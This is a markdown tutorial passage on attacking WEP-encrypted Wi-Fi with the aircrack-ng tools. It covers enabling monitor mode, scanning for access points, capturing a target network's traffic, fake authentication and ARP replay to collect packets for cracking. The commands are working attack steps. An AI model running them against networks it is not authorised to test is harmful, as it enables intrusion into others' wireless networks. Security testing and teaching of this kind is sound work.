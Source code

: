 ### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```

Create an interface that runs in monitor mode:

```text
# airmon-ng start wlan0
```
Write down interface name (something like `wlan0mon`)

### Discover networks with Airodump-ng

Display a list of wireless networks (Ctrl+C to stop):

```text
# airodump-ng wlan0mon
```

* The BSSID is the MAC address of the wireless access point that has been detected.
* PWR is the power level of the access point. The lower the number, the better the signal strength to that access point. 
This is a way to determine how close you are to the access point (unless the administrator changed the power level).
* CH is the channel the access point is operating on, such as 1, 6, or 11.
* ENC is encryption type used, such as WEP, WPA, or WPA2.
* CIPHER is the cipher being used, such as TKIP, CCMP, or WEP.
* ESSID is the name of the wireless network.

At the bottom of the output are the MAC addresses of the access points and the clients (stations) connected to those access points.

### Capture traffic with Airodump-ng

In a new terminal window, capture traffic for a specific wireless network:

```text
# airodump-ng -c <channelnumber> -w <filename> --bssid <MAC address of access point> wlan0mon
```

### Associate with access point and replay traffic

To crack the WEP encryption, a large number of packets (approximately 100.000 packets) are needed. 

Associate with the access point first:

```text
# aireplay-ng --fakeauth 0 -a <bssid of the access point> wlan0mon
```

Replay ARP traffic:

```text
# aireplay-ng --arpreplay -b <bssid of the access point> wlan0mon
```

